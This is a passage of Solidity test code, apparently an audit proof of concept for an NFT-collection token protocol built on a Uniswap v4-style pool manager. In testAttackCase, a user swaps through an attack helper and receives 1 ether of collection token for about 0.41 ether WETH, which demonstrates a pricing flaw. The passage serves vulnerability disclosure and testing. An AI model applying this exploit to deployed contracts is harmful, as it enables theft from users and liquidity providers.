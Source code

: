 ```solidity
    function testAttackCase() public {
        address alice = users[0];
        _dealNativeToken(alice, 10 ether);
        _approveNativeToken(alice, address(attackHelper), type(uint).max);

        uint wethBefore = WETH.balanceOf(alice);
        assertEq(10 ether, wethBefore);
        uint unflippedTokenBefore = unflippedToken.balanceOf(alice);
        assertEq(0, unflippedTokenBefore);

        vm.startPrank(alice);
        attackHelper.swap(
            IPoolManager.SwapParams({
                zeroForOne: true, // WETH -> unflippedToken
                amountSpecified: 1 ether, // exact output
                sqrtPriceLimitX96: TickMath.MIN_SQRT_PRICE + 1
            })
        );
        vm.stopPrank();

        // swap 1 ether collectionToken with 0.41 ether WETH
        uint wethAfter = WETH.balanceOf(alice);
        uint unflippedTokenAfter = unflippedToken.balanceOf(alice);
        uint wethCost = wethBefore - wethAfter;
        assertApproxEqAbs(0.41 ether, wethCost, 0.01 ether);
        uint unflippedTokenReceived = unflippedTokenAfter - unflippedTokenBefore;
        assertEq(1 ether, unflippedTokenReceived);
    }

    function _createCollection() internal {
        while (address(unflippedToken) == address(0)) {
            unflippedErc721 = new ERC721Mock();
            address test = locker.createCollection(address(unflippedErc721), 'Flipped', 'FLIP', 0);
            if (Currency.wrap(test) >= Currency.wrap(address(WETH))) {
                unflippedToken = CollectionToken(test);
            }
        }
        assertTrue(Currency.wrap(address(unflippedToken)) >= Currency.wrap(address(WETH)), 'Invalid unflipped token');
    }

    function _initCollection() internal {
        // This needs to avoid collision with other tests
        uint tokenOffset = uint(type(uint128).max) + 1;

        // Mint enough tokens to initialize successfully
        uint tokenIdsLength = locker.MINIMUM_TOKEN_IDS();
        uint[] memory _tokenIds = new uint[](tokenIdsLength);
        for (uint i; i < tokenIdsLength; ++i) {
            _tokenIds[i] = tokenOffset + i;
            unflippedErc721.mint(address(this), tokenOffset + i);
        }

        // Approve our {Locker} to transfer the tokens
        unflippedErc721.setApprovalForAll(address(locker), true);

        // Initialize the specified collection with the newly minted tokens. To allow for varied
        // denominations we go a little nuts with the ETH allocation.
        assertTrue(tokenIdsLength == 10);
        uint startBalance = WETH.balanceOf(address(this));
        _dealNativeToken(address(this), 10 ether);
        _approveNativeToken(address(this), address(locker), type(uint).max);
```